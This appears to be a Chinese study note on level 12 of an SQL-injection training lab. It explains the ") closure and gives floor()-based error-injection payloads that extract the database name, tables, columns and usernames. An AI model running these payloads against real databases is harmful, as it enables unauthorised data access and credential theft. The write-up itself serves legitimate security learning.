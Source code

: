 ```yaml
---
title: less12
url: https://www.yuque.com/u29002979/ep2zrx/ieg6hqs4seu4p47p
---
```


```bash
$uname='"'.$uname.'"';
	$passwd='"'.$passwd.'"'; 
	@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
```

`1"`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") and password=("") LIMIT 0,1' at line 1

用**")**闭合
1")
与Less11的区别就是闭合方式的不一样，注入方式完全一样。 <a name="LDkbm"></a>

# 试试报错注入

之前用过了 extractvalue() 函数， updatexml()函数 ，现在试试 floor()函数&#x20;
`-1") union select count(*),concat(0x7e,database(),0x7e,**floor(rand(0)*2)**)x from information_schema.tables **group by x**-- +`

```bash
爆破数据库
-1") union select count(*),concat(0x7e,database(),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
爆破数据表
-1") union select count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
爆破字段表
-1") union select count(*),concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
爆破字段
-1") union select count(*),concat(0x7e,(select username from users limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
```
